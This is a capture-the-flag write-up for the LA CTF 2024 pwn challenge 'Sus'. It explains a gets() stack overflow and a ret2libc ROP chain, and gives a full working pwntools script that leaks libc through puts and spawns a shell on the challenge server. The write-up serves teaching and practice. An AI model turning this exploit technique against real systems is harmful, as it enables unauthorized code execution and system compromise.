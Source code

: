 ```yaml
---
title: Sus
type: writeup
date: 2024-02-22T01:42:02+02:00
description: Writeup for Sus [LA CTF 2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

sus

## Intuition

The challenge is a simple return to libc with ROP. We need to leak the libc base by printing the puts from GOT and then return to ``system``. Luckily, our input also overflows a variable that gets into RDI before return, which gives us control over what ``system`` executes. Running checksec on it shows us there is no PIE, which makes leaking libc through puts is even easier.
```
$ checksec sus
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   38 Symbols	  No	0		1		sus
```

And the decompilation of the challenge:

```c
undefined8 main(void)

{
  char local_48 [56];
  undefined8 local_10;
  
  setbuf(stdout,(char *)0x0);
  local_10 = 0x45;
  puts("sus?");
  gets(local_48);
  sus(local_10);     // <----- local_10 is copied to RDI
  return 0;
}
```

## Solution

Plan is simple:
1. Overflow local_10 to contain the address of puts from GOT
2. Return to puts from PLT to leak libc and then chain back to main
3. Calculate offsets to system and to a string in libc containing "/bin/sh"
4. Overflow local_10 to contain the address of "/bin/sh"
5. Return to system

And the script:
```py
#!/usr/bin/env python3

from pwn import *

is_remote = True

ret = 0x00401016
gets_plt = 0x00401050
puts_plt = 0x00401030
puts_got = 0x00404000
main = 0x00401151

if is_remote:
    system_offset = 0x04c490
    puts_offset = 0x077980
    bin_sh_offset = 0x196031
else:
    system_offset = 0x50d70
    puts_offset = 0x80e50
    bin_sh_offset = 0x1d8678

if is_remote:
    target = remote("chall.lac.tf", 31284)
else:
    target = process("./sus")

payload = 0x38 * b'A' + p64(puts_got) + 0x8 * b'B' + p64(puts_plt) + p64(main)
target.sendlineafter(b"sus?\n", payload)

# return from main
# now it should chain to puts_plt and leak puts_got
leak = target.recvline()[:-1] +  b"\x00\x00"
print(leak)
print(hex(u64(leak)))

libc_base = u64(leak) - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset

# get shell
payload = 0x38 * b'A' + p64(bin_sh) + 0x8 * b'B' + p64(ret) + p64(system)

target.sendlineafter(b"sus?\n", payload)

target.interactive()
```

### Flag

``lactf{amongsus_aek7d2hqhgj29v21}``
